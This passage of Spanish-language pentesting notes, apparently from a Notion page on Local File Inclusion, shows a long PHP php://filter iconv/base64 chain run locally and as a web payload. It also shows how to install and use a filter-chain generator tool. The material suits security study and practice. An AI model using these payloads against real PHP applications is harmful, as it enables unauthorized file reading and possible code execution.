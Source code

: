 Luego, la secuencia es la misma para las otras letras → yunk|conversión para errores|conversión para letra|decodificar y codificar|conversión para errores

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2029.png)

```bash
php -r "echo file_get_contents('php://filter/convert.iconv.UTF-8.CSISO2022KR|
convert.iconv.UTF-8.UTF-7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|
convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|
convert.base64-encode|convert.iconv.UTF-8.UTF-7|convert.iconv.CP-AR.UTF16|
convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|
convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|
convert.iconv.UTF-8.UTF-7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|
convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|
convert.base64-encode|convert.iconv.UTF-8.UTF-7|convert.iconv.CP1046.UTF16|
convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|
convert.iconv.UTF-8.UTF-7/resource=text.txt');"; echo
```

Esto también se puede ingresar en la web:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2030.png)

```bash
php://filter/convert.iconv.UTF-8.CSISO2022KR|
convert.iconv.UTF-8.UTF-7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|
convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|
convert.base64-encode|convert.iconv.UTF-8.UTF-7|convert.iconv.CP-AR.UTF16|
convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|
convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|
convert.iconv.UTF-8.UTF-7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|
convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|
convert.base64-encode|convert.iconv.UTF-8.UTF-7|convert.iconv.CP1046.UTF16|
convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|
convert.iconv.UTF-8.UTF-7/resource=text.txt
```

### Wrapper - PHP Filter Chain Generator

Instalación:

```bash
git clone https://github.com/
synacktiv/php_filter_chain_generator/blob/main/
php_filter_chain_generator.py
```

Uso:

```bash
python3 php_filter_chain_generator.py --chain "cadena"
```

Ejemplo:

![Untitled](Local%20File%20Inclusion%20(LFI)%20fe422edc5a864fb581eab947f892807a/Untitled%2031.png)

